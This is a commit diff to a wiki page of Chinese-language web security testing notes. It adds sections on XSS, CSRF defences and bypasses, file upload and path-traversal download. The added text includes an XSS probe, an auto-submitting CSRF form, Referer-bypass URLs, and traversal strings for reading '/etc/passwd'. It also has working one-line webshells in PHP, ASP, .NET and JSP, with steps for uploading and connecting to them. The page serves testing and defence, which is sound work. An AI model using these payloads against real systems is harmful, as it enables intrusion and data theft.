

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 1559 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -1,6 +1,8 @@
 # attack_pattern
 
 ## XSS
+
+1. 尝试使用`xss"><img src=x onerror=alert(3)>`
 
 ???+ tip
     使用 **AngularJS** 框架的应用, 检查页面元素, 属性中携带`class="ng-binding"`的即为绑定输出, 已经过输出编码, 不存在XSS.
@@ -65,6 +67,75 @@ $(document).ready(function(){
 </body>
 </html>
 ```
+
+
+## CSRF
+
+### 受害场景
+
+1. 受害者已登录正常网站，{==SESSIONID==}存放在{==Cookies==}中
+1. 受害者被诱骗用{==同一个浏览器==}打开非法网站
+1. 非法网站存在访问正常网站请求脚本:
+
+    ```html
+    <form action="https://normal.request.action" method="POST" id="csrf_form">
+        <input name="description" value="">
+    </form>
+    <script>
+        var form = document.getElementById("csrf_form");
+        form.submit();
+    </script>
+    ```
+
+### 消减措施
+
+#### 1. Referer
+
+由浏览器添加
+
+服务器校验:
+
+```java
+String referer = request.getHeader("Referer");
+String hostname = request.getLocalName();
+//TODO: compare
+//Warning: 使用contains(), startWith()存在绕过
+```
+
+#### 2. token
+
+1. 认证通过后, 在服务端生成随机数token, 存储在SESSION中, 并发送回客户端(设置Cookies)
+1. 发送请求前, 从Cookies中获取token, 设置在 **请求头/请求体/URL** 中
+1. 接受到请求, 对token进行校验
+
+```java
+String uri = request.getRequestURI();
+//TODO: compare
+//Warning: 使用contains(), startWith()存在绕过
+
+String req_token = request.getHeader("csrf_token");
+String token = (String)request.getSession().getAttribute("csrf_token");
+if(token != null && token.equals(req_token)) {
+    request.doFilter(request, response);
+}
+```
+
+### 验证步骤
+
+!!! info "只针对非GET请求"
+
+1. 查看请求头/请求体/URL中是否存在 **token**, 如:
+    - `roarand: xxx`
+
+    删除/修改token
+    1. 如果对token校验, 尝试 **绕过URL白名单**:
+        - 跨越上层目录: `/logout/../xxx/xxx`
+
+1. 如果没有token, 修改 **Referer**
+    1. 如果对Referer校验, 尝试 **绕过** 使用contains(), startWith()进行的判断：
+        - `http://eval.com?<originhost>`
+        - `http://<originhost>@eval.com`
+        - `http://<originhost>.eval.com`
 
 
 ## SSRF
@@ -330,6 +401,34 @@ public class OSi {
 !!! quote "[OS命令注入](../../coding/go/go%E8%AF%AD%E8%A8%80%E5%AE%89%E5%85%A8%E7%BC%96%E7%A8%8B/#os)"
 
 
+## OGNL注入
+
+
+## 上传
+
+### 验证步骤
+
+1. 上传一句话木马webshell
+
+    语言 | 代码
+    --- | ---
+    php | `<?php @eval($_POST['passwd']);?>`
+    asp | `<%eval request(“passwd")%>`
+    .net | `<%@ Page Language="Jscript"%><%eval(Request.Item["passwd"],"unsafe");%>`
+    jsp | `<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>`
+
+1. 如果前台校验了后缀名, 抓包修改后缀名
+1. 在路径中添加`../`将webshell上传到可执行目录
+1. 利用客户端连接工具如中国菜刀/蚁剑连接
+
+## 下载
+
+### 验证步骤
+
+1. 文件名或路径可控, 在路径中添加`../`, 下载敏感文件如`/etc/passwd`
+1. 如果文件路径在URL中, 需要进行URL编码`%2e%2e%2f`
+
+
 ## DoS
 
 ### zip
````
